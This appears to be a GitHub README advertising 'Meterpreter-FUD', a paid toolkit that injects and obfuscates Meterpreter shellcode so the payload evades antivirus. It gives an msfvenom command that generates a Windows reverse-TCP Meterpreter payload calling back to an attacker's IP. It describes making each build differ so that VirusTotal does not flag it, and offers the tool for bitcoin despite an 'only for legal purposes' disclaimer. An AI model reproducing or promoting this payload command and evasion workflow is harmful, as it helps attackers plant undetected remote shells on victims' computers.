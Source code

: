# Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

![Antiscan](https://user-images.githubusercontent.com/126344954/221409544-93b34748-e6cd-4e35-9352-9fde25290df3.png)

Watch the video!!

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

The output python script will always be different and takes a different delay between 30-60 seconds, because of the special obfuscator, so even if someone upload the script to virustotal, the new generated will not get detected. But pls dont upload ;) Only for LEGAL purposes!!!

Write an email to back-oor@proton.me to buy it, payments via bitcoin!

